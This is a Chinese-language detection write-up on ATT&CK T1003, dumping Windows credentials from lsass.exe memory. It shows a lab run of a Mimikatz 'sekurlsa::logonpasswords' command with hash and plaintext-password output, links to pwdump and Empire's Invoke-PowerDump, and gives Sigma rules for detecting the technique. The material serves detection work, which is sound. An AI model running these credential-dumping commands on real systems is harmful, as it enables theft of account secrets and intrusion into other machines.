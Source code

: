 # T1003-windows-基于LSA凭证获取

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### LSA（Local Security Authority）

通过system权限访问主机lsass.exe进程，可以从中读取本地登录和域登录的明文密码。当服务在本地或域用户的上下文中运行时，其密码存储在注册表中。如果启用了自动登录，则此信息也将存储在注册表中。

本地安全机构子系统服务（LSASS）处理Windows主机中安全策略的实施。在从2000到Server 2008的Windows环境中，LSASS进程的内存以明文形式存储密码以支持WDigest和SSP身份验证。因此，Mimikatz等工具可以轻松检索密码。自Windows 8.1和Windows Server 2012的Microsoft为了增强系统的安全性，进一步阻止了LSASS以明文形式存储密码。

## 测试案例

你可以使用许多工具进行检索读取SAM文件：

- pwdump.exe
- Mimikatz
- gsecdump
- ······

或者，可以使用reg.exe从注册表中提取文件，并使用Creddump7收集凭据。

注意：由机制问题提取的密码是UTF-16编码的，这意味着它们以明文形式返回.Windows 10增加了对缓解中描述的LSA秘密的保护

## 检测日志

sysmon日志

windows security日志

## 测试复现

### 攻击方法：从lsass.exe程序内存中读取密码(administrator)

```dos
C:\mimikatz_trunk\x64>mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 246475 (00000000:0003c2cb)
Session           : RemoteInteractive from 2
User Name         : 1.205
Domain            : 1205-PC
Logon Server      : 1205-PC
Logon Time        : 2019/7/10 16:12:02
SID               : S-1-5-21-4083414316-2806399370-2225847366-1000
        msv :
         [00000003] Primary
         * Username : 1.205
         * Domain   : 1205-PC
         * LM       : 6ce1432e9b83da8da8eed815a197bd87
         * NTLM     : 6136ba14352c8a09405bb14912797793
         * SHA1     : b1ab7381d8e9799e407f1d4cb39e33b5d3e54f72
        tspkg :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        wdigest :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        kerberos :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@
        ssp :
        credman :
```

## 测试留痕

暂无

## 检测规则/思路

### sysmon日志

```yml
title: T1003-win-基于LSA-mimikatz凭证获取
description: win7 模拟测试结果
status: experimental
author: 12306Bro
references: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
tags: ATT&CK T1003
logsource:
​    product: windows
​    service: sysmon
detection:
​    selection:
​        EventID: 10
​        TargetImage: 'C:\Windows\system32\lsass.exe'
​    condition: selection
level: high
```

### windows security日志

```yml
title: T1003-win-基于LSA-mimikatz凭证获取
description: win7 模拟测试结果
status: experimental
author: 12306Bro
references: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
tags: ATT&CK T1003
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​        EventID: 4673
​        LoginIO: 0x3E7
​        Server: 'NT Local Security Authority / Authentication Service'
​        ServiceName: 'LsaRegisterLogonProcess()'
​        Processname: 'C:\Windows\System32\lsass.exe'
​        Privilege: SeTcbPrivilege
​    condition: selection
level: high
```

## 参考推荐

MITRE-ATT&CK-T1003

<https://attack.mitre.org/techniques/T1003/>

pwdump7

<http://passwords.openwall.net/b/pwdump/pwdump7.zip>

powershell

<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1>

mimikatz wiki

<https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump>

关于更多转储明文密码你可以参考

<https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/>
